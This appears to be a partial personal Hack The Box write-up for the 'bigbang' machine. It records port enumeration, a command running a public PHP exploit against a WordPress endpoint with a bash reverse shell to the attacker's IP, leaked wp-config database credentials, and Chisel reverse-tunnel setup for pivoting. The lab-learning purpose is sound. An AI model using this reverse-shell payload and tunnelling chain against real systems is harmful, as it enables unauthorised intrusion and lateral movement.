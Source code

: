 ```yaml
---
tags:
  - infosec
  - htb
date: 2025-01-26 15:29
publish: false
---
```


## bigbang - 10.129.203.211

### Service Enumeration

| Server IP Address | Ports Open      |
| ----------------- | --------------- |
| 10.129.203.211    | **TCP**: 22, 80 |

### Initial Access

Note: a lot of work--that I missed--went into developing `exploit.py`. The original version is found [here](https://github.com/ambionics/cnext-exploits/blob/main/cnext-exploit.py).

```bash
python exploit.py http://blog.bigbang.htb/wp-admin/admin-ajax.php 'bash -c "bash -i >& /dev/tcp/10.10.14.168/9001 0>&1"'
```

`wp-config.php` shows a database at 172.17.0.1

```php
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wp_user' );

/** Database password */
define( 'DB_PASSWORD', 'wp_password' );

/** Database hostname */
define( 'DB_HOST', '172.17.0.1' );
```

Now, set up Chisel.

```bash
# on my machine
chisel server -p 9999 --socks5 --reverse &
# on the container
./chisel client 10.10.14.168:9999 R:socks &
```

Confirm that `/etx/proxychains.conf` is configured correctly.
